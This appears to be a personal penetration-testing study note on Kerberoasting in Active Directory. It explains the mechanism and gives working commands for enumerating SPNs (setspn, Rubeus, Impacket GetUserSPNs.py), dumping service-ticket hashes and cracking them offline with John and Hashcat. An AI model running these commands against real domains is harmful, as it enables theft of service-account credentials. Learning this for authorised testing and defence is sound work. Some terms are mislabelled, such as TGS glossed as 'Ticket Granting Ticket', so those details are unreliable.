 ### Kerberoasting
Kerberoasting is an AD attack that ***allows a domain-connected attacker to extract SPN account hashes and crack them offline***. The `PowerSploit` toolkit automates this process with `Invoke-Kerberoast`.

When a service request a ***Ticket Granting Ticket (TGS)*** from the DC, the ***service account hash is used to encrypt that message***.

#### Tool
- **Rubeus:** This will discover every ***SPN, extract the TGS, and dump the service hashes*** into a file.
- **setspn:** Query for all valid ***SPNs*** on a PowerShell prompt.

#### Why Kerberoasting is possible?
- Any domain user can request a TGS for any service 
- The ***KDC doesn't check service ownership*** - it just issues the ticket (KDC assumes that the service itself will validate whether the user is authorized)
- The TGS is encrypted with the service account's password hash, which can be cracked offline if the password is weak, without sounding any alarm.

#### Kerberoasting Steps
- `Enumerate SPNs:` Find all accounts in AD that have the `servicePrincipalName` attribute. (Attacker must already be authenticated in the domain, even as a low-privileged user)
- `Request service tickets:` Ask DC for those services. (Attacker requests a Kerberos TGS ticket for a service account with an SPN. The KDC responds with a TGS that is ***encrypted with the service account's NTLM hash***, derived from its password)
- `Extract hashes:` Dump the service ticket data from memory; the ticket is encrypted with the service account's password hash.
- `Offline cracking:` Crack hashes offline to recover the password.
- `Impersonate service account:` Once cracket, the attacker can access resources as that service account.

#### Using PowerShell tools, Service Tickets can be identified by the following key factors:
- SPNs that are part of a domain user account
- Last logon date
- Password expiration date
- The last time the password was set

#### Service Principal Name (SPN)
A Service Principal Name (SPN) is a unique identifier that ***maps a service instance to a service login account***.

**Note**: SPNs must be registered to an AD service before Kerberos can authenticate the service using SPNs. SPNs are also unique in a domain forest and can only be bound to a single service account. So, if SPN is not unique then Kerberos authentication will fail.
![[Pasted image 20250826150620.png]]

A `Kerberoast` attack has multiple steps, as illustrated in the image below:
![[Pasted image 20250930000222.png]]

### Get user SPNs
**PowerSploit**
Old PowerShell command that can be used from a domain-connected client to retrieve the hash.
```
Invoke-Kerberoast
```

**Get Domain Name first**
```powershell
.\Rubeus.exe kerberoast
```

```powershell
whoami /fqdn
```
- Look for the two `DC.`

**Enumerate valid SPNs using PowerShell (Also provides other hosts details)**
```powershell
setspn -T <DC_hostname> -Q */*
```
- `setspn:` Windows binary used to query info regarding user accounts and services that are bound to the user account.
- `DC_hostname` could be `krbtown.local`.

**Search for specific details**
```powershell
setspn -T <DC_hostname> -Q */* | findstr /I users
```

**Rubeus**
```powershell
.\Rubeus.exe kerberoast /outfile:<filename.txt> /format:john
```

**Empire**
Empire is another PowerShell library for post exploitation that includes a set of tools that can be used to get SPN records.

**Impacket**
It is a Python library hosting scripts that can interact with a Windows domain controller. For Kerberoasting the script, GetUserSPNs.py can be used with any user's valid domain credentials.
```
/usr/share/doc/python3-impacket/examples/GetUserSPNs.py <domain/username:password> -dc-ip <dc_IP> -request > output_hash.txt
```

### Cracking the Hash
**JohnTheRipper**
```
john hash.txt /usr/share/wordlists/rockyou.txt
```

```
john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

**Hashcat**
```
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```
- `13100`: Kerberos 5 TGS-REP hash
